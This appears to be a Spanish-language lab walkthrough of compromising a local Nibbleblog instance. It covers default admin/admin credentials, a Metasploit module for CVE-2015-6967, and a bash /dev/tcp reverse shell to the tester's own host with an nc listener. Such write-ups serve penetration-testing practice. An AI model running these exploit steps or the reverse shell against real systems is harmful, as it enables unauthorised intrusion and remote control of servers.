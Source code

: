 Entro a la web y veo el siguiente comentario `<!-- /nibbleblog -->`, por lo que decido entrar en la url http://172.17.0.2/nibbleblog

Un texto dice que para publicar fuera a http://172.17.0.2/nibbleblog/admin.php. Intento hacer #SQLi y, aunque no consigo meterme como admin me sale el siguiente mensaje en la esquina superior izquierda. 

![](Imágenes/Pasted%20image%2020240813161059.png)

![](Imágenes/Pasted%20image%2020240813161147.png)

Pruebo con el usuario y contraseña `admin`, y cuela. 

Investigando, veo que nibbleblog es un CMS para blogs, y buscando en searchsploit veo que hay vulnerabilidades para ciertas versiones: 

![](Imágenes/Pasted%20image%2020240813162331.png)

En la parte de ajustes del dashboard, encuentro que estamos ante una versión vulnerable, por lo que usaré metasploit para explotar la vulnerabilidad: 

![](Imágenes/Pasted%20image%2020240813162405.png)

```
msfconsole -q # para  que no muestre el banner al principio
search nibbleblog
use 0
info 
set user admin
set password admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog

```

![](Imágenes/Pasted%20image%2020240813162746.png)

![](Imágenes/Pasted%20image%2020240813163202.png)

En principio me da un fallo, pero accedendo a la página de información de la vulnerabilidad (https://nvd.nist.gov/vuln/detail/CVE-2015-6967), veo que es porque me falta instalar el plugin myimage. 

Una vez activado de nuevo, tendremos una shell de meterpreter. Con shell crearemos una shell normal. Voy a intentar usar #nc para hacerme una reverse shell más cómoda:
```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de meterpreter: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```
